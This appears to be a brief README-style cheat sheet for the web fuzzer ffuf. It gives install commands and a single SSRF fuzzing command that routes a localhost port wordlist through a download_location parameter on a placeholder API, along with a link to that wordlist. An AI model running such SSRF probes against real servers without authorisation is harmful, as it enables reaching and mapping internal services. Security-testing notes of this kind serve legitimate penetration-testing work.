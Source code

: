 ## installation
```
go install -v github.com/ffuf/ffuf/v2@latest
sudo mv go/bin/ffuf /usr/local/bin/
sudo chmod +x /usr/local/bin/ffuf
ffuf -h
```
### SSRF 
```
ffuf -w local_ports.txt -u "https://api.example.com/v2/test/test/download/?download_location=http://FUZZ"
```
port wordlist list <a href="https://github.com/a7madn1/Fuzzing/blob/main/localhost-port-fuzzing.txt">localhost-port-fuzzing.txt</a>
